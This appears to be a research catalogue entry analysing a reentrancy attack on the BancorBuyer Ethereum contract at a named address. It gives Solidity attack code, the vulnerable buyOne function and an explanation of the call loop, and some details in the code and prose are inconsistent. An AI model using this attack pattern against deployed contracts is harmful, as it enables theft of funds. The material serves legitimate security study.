 #########
Attack 04
#########

**Contract Name**

BancorBuyer

**Contract Address**

0x87902f1b5d50d1f71a17bc2ea613d38510e9aa67

**Transaction Count**

3

**Invovled Ethers**

0.1 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``approveAndCall``

**Attack Mechanisim**

Attack code:
::

    contract Attack{
        BancorBuyer b = new BancorBuyer();
        ERC20 er = new ERC20();
        bytes  bs4 = new bytes(4);
        bytes4 functionSignature = bytes4(keccak256("attack()"));
        constructor() payable {}

        function prepareWork() {
            for (uint i = 0; i< bs4.length; i++){
                bs4[i] = functionSignature[i];
            }
        }

        function attack() public {
            e.buyOne.value(2 eth)(er, this, 1 eth, bs4);
        }

        function() payable{
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

Attacked code:
::

    contract BancorBuyer {
        ...
        function buyOne(
            ERC20 token,
            address _exchange,
            uint256 _value,
            bytes _data
        ) 
            payable
            public
        {
            balances[msg.sender] = balances[msg.sender].add(msg.value);
            uint256 tokenBalance = token.balanceOf(this);
            require(_exchange.call.value(_value)(_data));
            balances[msg.sender] = balances[msg.sender].sub(_value);
            tokenBalances[msg.sender][token] = tokenBalances[msg.sender][token].add(token.balanceOf(this).sub(tokenBalance));
        }
        ...
    }
    ...

In this case, the goal of our reentrancy is ``require(_exchange.call.value(_value)(_data));``. We need to make sure the address variable *_exchange* equals to the address of ``Attack``'. And this can be done easily by setting an arbitrary hex string. Additionally, the ``_data`` parameter ensures we can recursively call our attack function.

**Attack.** The attacker call ``attack()`` function, it calls ``buyOne`` function with the parameters set by attacker in victim contract. Because ``_exchange`` is assigned by ``Attack``'s address. Next it goes to the key statement ``require(_spender.call.value(msg.value)(_data));`` which calls back to the ``attack()`` function in attacker's contract. Hence, a call loop is formed and we achieved a *Reentrancy* attack.